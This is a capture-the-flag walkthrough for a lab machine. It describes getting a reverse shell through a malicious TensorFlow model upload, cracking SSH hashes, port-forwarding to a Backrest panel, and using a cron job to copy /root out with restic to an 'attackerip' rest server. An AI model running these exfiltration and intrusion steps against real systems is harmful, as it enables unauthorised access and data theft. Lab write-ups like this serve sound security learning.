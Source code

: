 # 🤖Artificial

## 🧠Summary
> A quick TCP scan revealed only ports 80 (HTTP) and 22 (SSH). The web app was hosting a TensorFlow model upload interface with a Docker-based environment. Uploaded a crafted malicious model exploiting a known TensorFlow RCE vulnerability to gain a reverse shell. Enumerated internal files, cracked SSH password hash, and gained initial access. Found a backrest-based cron job interface running on internal port 9898. Port forwarded, extracted credentials from .config JSON, logged in, and created a repo with a malicious payload. Triggered the job to dump /root into my listener and captured the root flag.

## ↘️ASCII Visual
```text
[ Nmap ] → 80,22
      |
      v
[ AI model upload panel ]
      |
      v
Upload malicious model → RCE
      |
      v
Reverse shell → dump credentials → crack hash
      |
SSH login (user)
      |
      v
netstat: 127.0.0.1:9898 → Backrest Web UI
      |
      v
Find creds in .config → Login
      |
      v
Create malicious repo → Trigger cron job
      |
Data exfil to my server → /root access → root flag
```

## 🔎Nmap scan
- Ran an nmap scan to discover services:
  ![](./screenshots/nmap_scan.png)
- Found only:
    - 22/tcp - SSH
    - 80/tcp - HTTP

## 🌐Web Enumeration
- Navigated to the HTTP service on port 80.
- Found a site for uploading TensorFlow-based AI models.
- The site gave instructions to upload:
    - Dockerfile
    - requirements.txt
    - Python model script
- Used this blog [TensorFlow RCE Exploit](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model) to craft a payload.
- Uploaded the malicious model and triggered execution via the interface.
![](./screenshots/docker.png)
- Got the reverse shell as a service-level user.
![](./screenshots/reverse_shell.png)

## 📌Loop hole
- Enumerated the system, found a local SQLite DB with login hashes
  ![](./screenshots/database.png)
- Extracted the hashes and cracked them with John:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  ```
- Got valid credentials, logged in via SSH.
- Got user access

## ⚓Foothold
- Ran netstat -tulnp, discovered a service on 127.0.0.1:9898.
- Port-forwarded the service:
  ```bash
  ssh -L 9898:localhost:9898 gael@arificial.htb
  ```
- Found a Backrest Web UI that required login.
- Searched for config files:
  ```bash
  find / -name "backrest*" 2>/dev/null
  ```
- Located .config/backrest/config.json with base64-encoded password.
- Used the decoded creds to log in

## 🧪 Exploitation
- Created a new repo in the cron job panel.
- Wrote a script to dump /root into a backup:
```bash
cp /root/root.txt /tmp/output.txt
restic -r rest:http://attackerip:8000 backup /tmp
```
- Hosted a rest server:
  ```bash
  rest-server --path /var/restic --listen :8000
  ```
- Ran the cron job from the UI.
- Received the dumped data and extracted root.txt
